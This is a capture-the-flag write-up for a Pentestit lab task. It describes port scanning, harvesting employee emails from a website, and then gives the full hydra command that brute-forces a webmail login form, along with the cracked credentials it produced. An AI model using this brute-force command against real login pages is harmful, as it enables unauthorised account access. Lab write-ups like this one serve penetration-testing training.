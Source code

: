 ```yaml
---
title: Pentestit Test Lab v10 WriteUp - Mail Token
categories: ['CTF WriteUp']
tags: ['Hacking']
---
```


# Intro/Network
Lets look at the network diagram first:

![Image]({{ site.baseurl }}/images/testlabv10network.png)

Seems like a gray/whitebox lab, nice! Now to reach the internal networks we have to get past the gateway. After connecting to the VPN we can start attacking.



# Gathering Info
Since we can only attack the gateway, lets start gathering some info. Doing a quick nmap scan reveales the following open ports.

![Image]({{ site.baseurl }}/images/testlabv10gwnmap.png)

Usually, websites are a good start to get more info, lets check them out.

## Web on port 80
Accessing the website on port 80 brings me to their main homepage. I searched through it for a long time but couldnt find anything useful. After that I decided to continue to port 443.

## Web on port 443
Accessing the website on port 443 lead me to some kind of security blog. Searching the website for info, I found the following comment in the source:

```html
<!-- Alfred Modlin said use this template -->
```

hmm, looks like a employees name. maybe we can use that name later?

Searching further through the site, I found the following 2 emails on the contact site:

{% highlight html %}
Scott Locklear- s.locklear@gds.lab
Joshua Wise- j.wise@gds.lab
{% endhighlight %}

Now we know the e-mail format for the company! Combine that with the name found earlier, we possibly have another user: a.modlin@gds.lab!

## Web on port 8100
Moving on to port 8100, which looks like another webserver. Accessing the website itself brings me to a login-form of their webmail. Maybe we can bruteforce a users login via the login-form?



# Bruteforcing login
Since we want to try all possible users, ive added the found emails to a file named "users.txt". After that I started to bruteforce the login-form on http://192.168.101.9:8100/login/ with the following command:

```shell
hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
```

With success! We found the login for a.modlin:

{% highlight shell %}
[8100][http-post] host: 192.168.101.9 login: a.modlin@gds.lab password: justdoit
[STATUS] attack finished for 192.168.101.9 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

After logging in with the found credentials, I found 2 E-Mails with one of them containing the token. Task Done!
